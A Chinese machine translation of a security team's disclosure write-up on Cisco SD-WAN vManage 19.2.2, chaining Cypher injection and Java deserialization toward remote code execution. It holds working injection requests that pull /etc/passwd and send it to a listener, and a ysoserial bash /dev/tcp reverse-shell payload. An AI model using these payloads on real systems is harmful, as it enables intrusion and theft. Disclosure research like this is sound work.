



# 入侵思科 SD-WAN vManage 19.2.2 —从 CSRF 到远程代码执行

> 原文：<https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77?source=collection_archive---------3----------------------->



# **简介**

保住财富第一的位置既令人兴奋，又富有挑战性，同时也很有回报。沃尔玛的全球技术足迹由许多技术实施组成，为安全从业者提供了无与伦比的挑战和回报。沃尔玛信息安全团队与供应商合作伙伴协作，不断提高整个技术社区的产品和服务的安全卫生。沃尔玛及其合作伙伴非常重视安全，并致力于积极影响强大的安全文化。

沃尔玛信息安全公司与思科系统公司紧密合作，负责任地披露了本博客中讨论的安全漏洞。思科系统公司以一种紧迫感和坚定的承诺及时解决了这些漏洞。

Cisco SD-WAN vManage 是一个应用程序，是更广泛的 SD-WAN 解决方案的一部分，用于管理和配置整个 Cisco SD-WAN 基础设施。今年早些时候，我们的业务用户聘请 Walmart InfoSec 团队评估 vManage 的安全状况。在审计时，该产品的版本是 19.2.0，我注意到了一些 cypher 注入漏洞。我向 Cisco PSIRT 报告了这些问题，他们表示这些发现是重复的。几周后，synacktiv 团队发布了一篇博客，介绍他们对 vManage 的发现，其中包括 cypher 注入漏洞。虽然他们披露的 cypher 注入问题与我发现的情况不同，但我认为潜在的根本原因已由思科纠正。又过了一周，业务用户请求对 vManage 的最新版本(19.2.2)进行验证测试。我对该产品运行了概念验证，并注意到密码注入实例仍然存在。由于这种情况的结果，我决定在工作时间之外投入一些个人时间，看看还有什么其他的漏洞。在审查结束时，我注意到了 6 种类型的漏洞。这篇博文分享了一个从 CSRF 到 RCE 的链式矢量。

# 第一部分 Cypher 注射液的故事(CSCvt65026)

当我测试不同的 vManage 端点时，我观察到以下情况:

请求:

```
GET /dataservice/device/counters?deviceId=**%27** HTTP/1.1
Host: <redacted>
Connection: close
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Content-Type: application/json
Referer: https://<redacted>/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=ExzAN7iecW940iRO1JkGyxTQolUwC_BK906aD484.75b07999–549d-412b-80f2–5091dbc85e87
```

回应:

```
X-Frame-Options: DENY
Date: Wed, 18 Mar 2020 20:45:35 GMT
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Content-Type: application/jsonInvalid input ''': expected whitespace, '.', node labels, '[', "=~", IN, STARTS, ENDS, CONTAINS, IS, '^', '*', '/', '%', '+', '-', '=', "<>", "!=", '<', '>', "<=", ">=", AND, XOR, OR, LOAD CSV, FROM, INTO, START, MATCH, UNWIND, MERGE, CREATE GRAPH >>, CREATE >> GRAPH, CREATE GRAPH, CREATE, SET, DELETE GRAPHS, DELETE, REMOVE, FOREACH, WITH, CALL, PERSIST, RELOCATE, RETURN, SNAPSHOT, UNION, ';' or end of input (line 1, column 168 (offset: 167))
"Match (d:vmanagedbDEVICENODE) Optional Match ()-[a:vmanagedbREBOOTHISTORY]-(d) With a,d Optional Match ()-[e:vmanagedbCRASHLOG]-(d) With a,d,e Where d.`system-ip` = ''' return d.`system-ip` as `system-ip`,d.`number-vsmart-control-connections` as `number-vsmart-control-connections`,d.`expectedControlConnections` as `expectedControlConnections`,d.`ompPeersUp` as `ompPeersUp`,d.`ompPeersDown` as `ompPeersDown`,d.`bfdSessionsUp` as `bfdSessionsUp`,d.`bfdSessionsDown` as `bfdSessionsDown`,count(distinct a) as rebootCount, count(distinct e) as crashCount"
```

在谷歌搜索应用程序响应的一些内容时，我了解到这是一个 Neo4j 数据库错误。用户输入似乎也会影响查询，所以我想弄清楚如何利用以及利用什么。

有两篇博文谈到了 Neo4j 的 cypher 注射液，这是关于这个话题的一个很好的起点。第一篇博文描述了如何扩展现有的查询，使之超越原来的查询，第二篇博文介绍了 cypher 语言中的“LOAD CSV”命令，该命令可以执行基于 HTTP 的请求。

我开始阅读 documentation⁴关于密码语言，并了解到“加载 CSV”支持“文件”和“ftp”协议。我能够利用“文件”来访问本地磁盘内容。

查询:

```
-1' or '1'='1' load csv from 'file:///etc/passwd' as line return line as `system-ip`//
```

请求:

```
GET /dataservice/device/counters?deviceId=**-1%27%20or%20%271%27%3d%271%27%20load%20csv%20from%20%27file%3A%2F%2F%2Fetc%2Fpasswd%27%20as%20line%20return%20line%20as%20%60system-ip%60%2f%2f** HTTP/1.1
Host: <redacted>
Connection: close
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Content-Type: application/json
Referer: https://<redacted>/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=ExzAN7iecW940iRO1JkGyxTQolUwC_BK906aD484.75b07999–549d-412b-80f2–5091dbc85e87
```

回应:

```
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Date: Wed, 18 Mar 2020 21:19:36 GMT
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Content-Type: application/json{“header”:{“generatedOn”:1584566376401},”data”:[{“system-ip”:[“root:x:0:0:root:/home/root:/bin/sh”]},{“system-ip”:[“daemon:x:1:1:daemon:/usr/sbin:/bin/sh”]},{“system-
… snipped …
ip”:[“vmanage:x:310:310::/home/vmanage:/bin/false”]},{“system-ip”:[“radvd:x:311:65534::/var/lib/radvd:/bin/false”]},{“system-ip”:[“tss:x:312:312::/var/lib/tpm:/bin/false”]},{“system-ip”:[“admin:x:1000:1000::/home/admin:/usr/sbin/viptela_cli”]}
… snipped …
```

我发现的一个更有趣的文件是用户“vmanage-admin”的私钥，它存储在“/etc/viptela/中。ssh/id_dsa”。我利用密码注入漏洞来检索私钥，希望我可以 SSH 到这个盒子中。结果是这个特定用户禁用了 SSH，但是允许 SCP 访问。我最终使用 SCP 和递归下载来获得应用程序的 WAR 包。

除了删除私钥，我还观察到，如果向“LOAD CSV”命令提供了无效的文件路径，应用程序可能会返回反映文件路径的错误。

```
HTTP/1.1 500 Internal Server Error
Cache-Control: no-cache, no-store, must-revalidate
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Date: Wed, 18 Mar 2020 21:31:48 GMT
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Content-Type: application/json{“error”:{“message”:”Server error”,”details”:”Couldn’t load the external resource at: file:/etc/passxxxwd”,”code”:”REST0001"}}
```

这被证明是攻击其他 cypher injection 实例的一个重要原语。

我反编译了这个包，观察这个缺陷是如何实现的。易受攻击的代码可以追溯到:

*/we b-INF/classes/com/VIP tela/v manage/server/device/common/device Dao . class*

```
public JsonArray getDeviceCounters(String systemIP) {
   VGraphDataStore dataStore = this.getDatabaseManager().getGraphDataStore();
   Throwable var3 = null;JsonArray var5;
   try {
      Iterable<Vertex> devList = (Iterable) **dataStore.createQueryBuilder().rawQuery(() -> {  return this.createNeo4JDeviceCountersQuery(systemIP); }).build().execute();**
      var5 = JsonUtil.createJSONArrayBuilder(devList).build(); … snipped …private String createNeo4JDeviceCountersQuery(String systemIP) {
   StringBuilder fields = new StringBuilder();
   List<String> projections = Arrays.asList("system-ip", "number-vsmart-control-connections", "expectedControlConnections", "ompPeersUp", "ompPeersDown", "bfdSessionsUp", "bfdSessionsDown");
   projections.forEach((s) -> {
      fields.append("d.`").append(s).append("` as `").append(s).append("`,"); });
   fields.append("").append("count(distinct a) as rebootCount");
   fields.append(", ").append("count(distinct e) as crashCount");
   String query;
   if (systemIP != null) {
   query = "Match (d:&&DeviceNode) Optional Match ()-[a:&&RebootHistory]-(d) With a,d Optional Match ()-[e:&&CrashLog]-(d) With a,d,e Where d.`system-ip` = '" + systemIP + "' return " + fields.toString();
   } else {
   query = "Match (d:&&DeviceNode) Optional Match ()-[a:&&RebootHistory]-(d) With a,d Optional Match ()-[e:&&CrashLog]-(d) With a,d,e return " + fields.toString();
   }
   return query;
}
```

我删除了“rawQuery”一词，以识别此类问题的其他变体。总的来说，我找到了另外六个实例。其中一些是盲注，利用它们有点棘手，但并不太难。

我遇到的一个易受攻击的实例只会返回 neo4J 错误或常规数据输出，这让我很想利用它。我记得读过 Pieter Hiele 的博客 post⁵，他把一个盲目的 XXE 变成了通过错误输出返回内容，我认为这个概念可能是一个潜在的解决方案。

我如下链接了两个“加载 CSV”。第一个“LOAD CSV”将从本地磁盘检索内容，第二个“LOAD CSV”将收集的内容作为 URL 加载，该 URL 不存在，因此将显示在错误:

查询:

```
-1']) or 1=1  load csv from 'file:///etc/passwd' as line fieldterminator '\n' load csv from 'file:///'+line as sigh return 0 as count//
```

请求:

```
GET /dataservice/device/bfd/sites/summary?vpnId=**-1%27%5d%29%20or%201%3d1%20%20load%20csv%20from%20%27file%3a%2f%2f%2fetc/passwd%27%20as%20line%20fieldterminator%20%27%0a%27%20load%20csv%20from%20%27file%3a%2f%2f%2f%27%2bline%20as%20sigh%20return%200%20as%20count%2f%2f** HTTP/1.1
Host: <redacted>
Connection: close
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Content-Type: application/json
Referer: https://<redacted>/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=ExzAN7iecW940iRO1JkGyxTQolUwC_BK906aD484.75b07999–549d-412b-80f2–5091dbc85e87
```

回应:

```
HTTP/1.1 500 Internal Server Error
Cache-Control: no-cache, no-store, must-revalidate
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Date: Wed, 18 Mar 2020 21:38:14 GMT
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Content-Type: application/json{“error”:{“message”:”Server error”,”details”:”Type mismatch: expected String but was List<String> (line 10, column 27 (offset: 893))\n\”’ load csv from ‘file:///’+line as sigh return 0 as count//’] ) return count(distinct siteId) as count\”\n ^”,”code”:”REST0001"}}
```

发生了什么事？原来第一个“LOAD CSV”读取整个文件，但是文件中的每一行都作为一个字符串存储在一个列表数据结构中。从“列表<string>到“字符串”的类型转换是不可能的，我得到了错误。</string>

拼图的最后一块是通过字符串连接将“List <string>转换成“String”。经过一些谷歌搜索和反复试验，我使用“REDUCE”和“CASE”命令提出了一个可行的解决方案:</string>

查询:

```
load csv from ‘file:///etc/passwd’ as line fieldterminator ‘\n’ load csv from ‘file:///’+ reduce(h=head(line),t in tail(line) | case when t is null then h else h+t end) as sigh
```

请求:

```
GET /dataservice/device/bfd/sites/summary?vpnId=-**1%27%5d%29%20or%201%3d1%20%20load%20csv%20from%20%27file%3a%2f%2f%2fetc/passwd%27%20as%20line%20fieldterminator%20%27%0a%27%20load%20csv%20from%20%27file%3a%2f%2f%2f%27%2b%20reduce%28h%3dhead%28line%29%2ct%20in%20tail%28line%29%20%7c%20case%20when%20t%20is%20null%20then%20h%20else%20h%2b%27%20%27%2bt%20end%29%20as%20sigh%20return%200%20as%20count%2f%2f** HTTP/1.1
Host: <redacted>
Connection: close
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Content-Type: application/json
Referer: https://<redacted>/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=Km457qpvFQoFY4GgAIUbpsHwp6kdUzidkCvOOU81.00aeedad-3dd0-434a-8f3d-bcab23725110
```

回应:

```
HTTP/1.1 500 Internal Server Error
Cache-Control: no-cache, no-store, must-revalidate
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Date: Wed, 22 Apr 2020 14:13:26 GMT
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Content-Type: application/json{"error":{"message":"Server error","details":"Illegal character in path at index 40: file:/root:x:0:0:root:/home/root:/bin/sh daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/false sys:x:3:3:sys:/dev:/bin/false sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/false man:x:6:12:man:/var/cache/man:/bin/false lp:x:7:7:lp:/var/spool/lpd:/bin/false mail:x:8:8:mail:/var/mail:/bin/false news:x:9:9:news:/var/spool/news:/bin/false uucp:x:10:10:uucp:/var/spool/uucp:/bin/false proxy:x:13:13:proxy:/bin:/bin/false www-data:x:33:33:www-
… snipped …
```

我观察到的另一个例子是完全盲目的注射。不管传递给端点的是什么，它都将返回一个自定义的错误消息。我调整了我的双“LOAD CSV”向量，不再通过无效的文件路径过滤本地磁盘内容，而是提供一个合法的主机来通过网络提取内容。

请求:

```
GET /dataservice/template/policy/assembly/vedge/**1%27%7D%29-%5B%2A%2E%2E2%5D-%3E%28l%3A%26%26POLICYLISTSNODE%29%20return%201%20union%20load%20csv%20from%20%27file%3A%2F%2F%2Fetc%2Fpasswd%27%20as%20line%20fieldterminator%20%27%0A%27%20load%20csv%20from%20%27http%3A%2F%2F10.20.120.200%3A8080%2F%27%2B%20reduce%28h%3Dhead%28line%29%2Ct%20in%20tail%28line%29%20%7C%20case%20when%20t%20is%20null%20then%20h%20else%20h%2B%27%20%27%2Bt%20end%29%20as%20sigh%20return%201%2F%2F** HTTP/1.1
Host: <redacted>
Connection: close
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Referer: https://<redacted>/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-XSRF-TOKEN:B000E544E43074FED9E03A43C90D6CB86D20F77DF81BF3EA7C308844D1C8A5811FD2696D3161517EDEF50365208A63FE7B17
Cookie: JSESSIONID=YN3G9wxni1-9d_r145EdZ83yXAzoXWyCHPDg8X1x.75b07999-549d-412b-80f2-5091dbc85e87
```

听众:

```
$ nc -nlvvp 8080
listening on [any] 8080 ...
connect to [10.20.120.200] from (UNKNOWN) [<redacted>] 57986
GET /root:x:0:0:root:/home/root:/bin/sh daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/false sys:x:3:3:sys:/dev:/bin/false sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/false man:x:6:12:man:/var/cache/man:/bin/false lp:x:7:7:lp:/var/spool/lpd:/bin/false mail:x:8:8:mail:/var/mail:/bin/false news:x:9:9:news:/var/spool/news:/bin/false uucp:x:10:10:uucp:/var/spool/uucp:/bin/false proxy:x:13:13:proxy:/bin:/bin/false www-data:x:33:33:www-data:/var/www:/bin/false backup:x:34:34:backup:/var/backups:/bin/false list:x:38:38:Mailing List Manager:/var/list:/bin/false irc:x:39:39:ircd:/var/run/ircd:/bin/false gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/false dhcp:x:298:298::/var/run/dhcp:/bin/false www:x:299:299::/var/www/localhost:/bin/sh quagga:x:300:300::/var/run/quagga:/bin/false sshd:x:301:301::/var/run/sshd:/bin/false log:x:302:302::/var/log:/bin/false ntp:x:303:303::/var/lib/ntp:/bin/false vmanage:x:310:310::/home/vmanage:/bin/false radvd:x:311:65534::/var/lib/radvd:/bin/false tss:x:312:312::/var/lib/tpm:/bin/false admin:x:1000:1000::/home/admin:/usr/sbin/viptela_cli vmanage-admin:x:1001:1001::/home/vmanage-admin:/usr/sbin/viptela_cli basic:x:1002:100::/home/basic:/usr/sbin/viptela_cli viptela-reserved-cloudops:x:1003:100::/home/viptela-reserved-cloudops:/usr/sbin/viptela_cli viptela-reserved-tac:x:1004:100::/home/viptela-reserved-tac:/usr/sbin/viptela_cli viptela-reserved-dca:x:1005:1005::/home/viptela-reserved-dca:/usr/sbin/viptela_cli viptela-reserved-cloud:x:1006:1006::/home/viptela-reserved-cloud:/usr/sbin/viptela_cli nobody:x:65534:65534:nobody:/nonexistent:/bin/false neteng:x:1007:100::/home/neteng:/usr/sbin/viptela_cli HTTP/1.1
User-Agent: NeoLoadCSV_Java/1.8.0_162
Host: 10.22.120.200:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

应该注意的是，其中一些 cypher injection 实例没有 CSRF 令牌保护，因此未经验证的攻击者不仅可以利用它来渗透本地磁盘内容，还可以与本地网络服务(SSRF)进行交互，当然还可以改变图形数据库的内容。

# 第二部分—反序列化攻击(CSCvt70892)

有了应用程序的反编译代码，我手动清理了代码库，找出了可能导致 RCE 的常见缺陷。当我搜索“readObject”时，以下结果引起了我的注意:

```
… snipped ….//com/viptela/vmanage/server/sso/saml/storage/SAMLStorageDAO.java:106:                samlObject = (SAMLObject)samlMsgObjInputStream.**readObject**();… snipped …
```

深入研究源代码并追溯到源头，我将工作流标识如下:



**1。**当用户访问服务提供商(Cisco SD-WAN v manage)[https://<target>/SAMLLoginServlet]时，应用程序会创建一个 AuthnRequest 对象，并使用 SAMLRequest 将用户重定向到身份提供商(Okta)。

**2。**当从 SP 到 IdP 的重定向发生在用户的浏览器上时，后端将 AuthnRequest 对象序列化为 SAMLObject 类型，并将其存储到 neo4j 数据库中。

**3。**用户通过身份提供商进行认证。

**4** 。身份验证成功后，身份提供者将使用 SAMLResponse 将用户重定向回服务提供者。

**5。**服务器提供者将从 neo4j 数据库中检索序列化的 SAMLObject 并反序列化该对象。

如果在用户通过 IdP 进行身份验证之前，我可以用一个 gadget 替换数据库中序列化的“SAMLObject ”,我就可以利用这个反序列化漏洞。

为了深入研究这个漏洞，我基于 Cisco SD-WAN documentation⁶.设置了 SSO 建议不熟悉 SAML SSO 的读者阅读“SAML 认证如何工作”⁷.此外，感兴趣的读者可以查看附录 1，查看从源代码到接收器的代码跟踪。

为了给上述工作流的步骤 2 添加更多的上下文，序列化的“SAMLObject”存储在“vmanagedbSAMLSTORAGENODE”中，包含以下各列:

sessionId

messageId

示例消息

“sessionId”可以忽略。“messageId”是为“AuthnRequest”对象随机生成的 Id，“samlMessage”是十六进制格式的序列化“SAMLObject”。

为了验证我的观察，我使用“neteng”帐户登录到 vShell，并运行 neo4j HTTP 请求来查看“vmanagedSAMLSTORAGENODE”:

```
vmanage:~$ curl -X POST -u neo4j:password -H 'Content-type: applicaton/json' -H 'Accept: application/json' [http://localhost:7474/db/data/cypher](http://localhost:7474/db/data/cypher) -d '{"query":"Match(n:vmanagedbSAMLSTORAGENODE) return n.`messageId`"}'
{
  "columns" : [ "n.`messageId`" ],
  "data" : [ ]
```

我注意到目前没有内容。

我浏览了 http:// <target>/SAMLLoginServlet，重新运行了 curl 命令:</target>

```
curl -X POST -u neo4j:password -H 'Content-type: applicaton/json' -H 'Accept: application/json' [http://localhost:7474/db/data/cypher](http://localhost:7474/db/data/cypher) -d '{"query":"Match(n:vmanagedbSAMLSTORAGENODE) return n.`messageId`"}'
{
  "columns" : [ "n.`messageId`" ],
  "data" : [ [ "a1g09iia3ibi57bj185d8h972gc9dgc" ] ]
```

我看到用 messageId“a 1g 09 IIA 3 ibi 57 bj 185d 8h 972 GC 9 dgc”创建的条目。

此外，我查询了“samlMessage”以查看十六进制格式的序列化“SAMLObject ”:

```
vmanage:~$ curl -X POST -u neo4j:password -H 'Content-type: applicaton/json' -H 'Accept: application/json' [http://localhost:7474/db/data/cypher](http://localhost:7474/db/data/cypher) -d '{"query":"Match(n:vmanagedbSAMLSTORAGENODE) return n.`messageId`, n.`samlMessage`"}'
{
  "columns" : [ "n.`messageId`", "n.`samlMessage`" ],
  "data" : [ [ "a1g09iia3ibi57bj185d8h972gc9dgc", "**aced**000573720035636f6d2e76697074656c612e766d616e6167652e7365727665722e73736f2e73616d6c2e7061727365722e53414d4c4f626a656374548f3a6018554af003000078720033636f6d2e76697074656c612e766d616e6167652e7365727665722e73736f2e73616d6c2e7061727365722e53414d4c42617365010e7bdf3ba2154d02000249000868617368436f64654c001073657269616c697… snipped … ] ]
```

“samlMessage”以 aced 开始，这是 Java 序列化内容的开始。

我用[https://github.com/pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)生成一个反向外壳:

```
java -jar ~/Tools/ysoserial-modified/target/ysoserial-modified-1.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.20.120.200/1337 0>&1' | xxd -p | tr -d '\n'
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections5 (file:/Tools/ysoserial-modified/target/ysoserial-modified-1.jar) to field javax.management.BadAttributeValueExpException.val
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections5
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
**aced**000 … snipped … 7878
```

我覆盖了与 messageId“a 1g 09 IIA 3 ibi 57 bj 185d 8h 972 GC 9 dgc”关联的“samlMessage ”,如下所示:

```
vmanage:~$ curl -X POST -u neo4j:password -H 'Content-type: applicaton/json' -H 'Accept: application/json' [http://localhost:7474/db/data/cypher](http://localhost:7474/db/data/cypher) -d '{"query":"Match(n:vmanagedbSAMLSTORAGENODE{messageId:\"a1g09iia3ibi57bj185d8h972gc9dgc\"}) set n.`samlMessage`=\"aced000 … snipped … 7878\" return n.`samlMessage`"}'
{
  "columns" : [ "n.`samlMessage`" ],
  "data" : [ [ "**aced**000 … snipped … 7878" ] ]
```

在我的机器(10.20.120.200)上，我在端口 1337 上设置了一个 netcat 监听器

在运行 curl 命令的 vShell 中，我监控服务器日志文件:

```
vmanage:~$ tail -f /var/log/nms/vmanage-server.log
```

我通过身份提供者进行了身份验证，并观察到日志打印了一个堆栈跟踪:

```
04-Apr-2020 03:44:10,789 UTC INFO  [vmanage] [SAMLProtocolMessageXMLSignatureSecurityPolicyRule] (default task-3) |default| Validation of protocol message signature succeeded, message type: {urn:oasis:names:tc:SAML:2.0:protocol}Response
04-Apr-2020 03:44:10,815 UTC ERROR [vmanage] [SAMLProcessingFilter] (default task-3) |default| Exception - : **java.lang.ClassCastException: javax.management.BadAttributeValueExpException cannot be cast to com.viptela.vmanage.server.sso.saml.parser.SAMLObject**
 at com.viptela.vmanage.server.sso.saml.storage.SAMLStorageDAO.retrieveMessage(SAMLStorageDAO.java:109) [classes:]
 at com.viptela.vmanage.server.sso.saml.storage.HttpSessionStorage.retrieveMessage(HttpSessionStorage.java:149) [classes:]
 at com.viptela.vmanage.server.sso.saml.websso.WebSSOProfileConsumerImpl.processAuthenticationResponse(WebSSOProfileConsumerImpl.java:164) [classes:]
 at com.viptela.vmanage.server.sso.saml.SAMLAuthenticationProvider.authenticate(SAMLAuthenticationProvider.java:78) [classes:]
 at com.viptela.vmanage.server.sso.saml.SAMLProcessingFilter.doFilter(SAMLProcessingFilter.java:180) [classes:]
 at 
… snipped …
```

日志指示在反序列化过程中发生了对“SAMLObject”的错误转换。

回到我的 netcat 监听器，我看到一个反向的 shell:

```
$ nc -nlvvp 1337
listening on [any] 1337 ...
connect to [10.20.120.200] from (UNKNOWN) [<redacted>] 39366
bash: cannot set terminal process group (663): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ pwd
pwd
/etc/sv/wildfly
bash-4.4$ whoami
whoami
vmanage
bash-4.4$ id
id
uid=310(vmanage) gid=310(vmanage) groups=310(vmanage)
bash-4.4$ uname -a
uname -a
Linux vmanage 3.10.62-ltsi #1 SMP PREEMPT Fri Mar 13 20:33:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
bash-4.4$
```

# 第三部分——新的根源

synacktiv 团队的博客描述了一种获得根 shell 的优雅方法，但是需要注意的是，它需要获得一个“/usr/bin/confd_cli_user”的副本，该副本只能由 root 读取。我找到了另一种方式升级到根没有这样的麻烦。

当我反汇编“/usr/bin/confd_cli”二进制文件时，我观察到以下情况:

```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        **callq  400f40 <getuid@plt>**
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        **callq  401000 <getgid@plt>**
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```

当我运行“ps aux”时，我观察到以下情况:

```
vmanage:~$ ps aux 
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g **100** -u **1007** bash
… snipped …
```

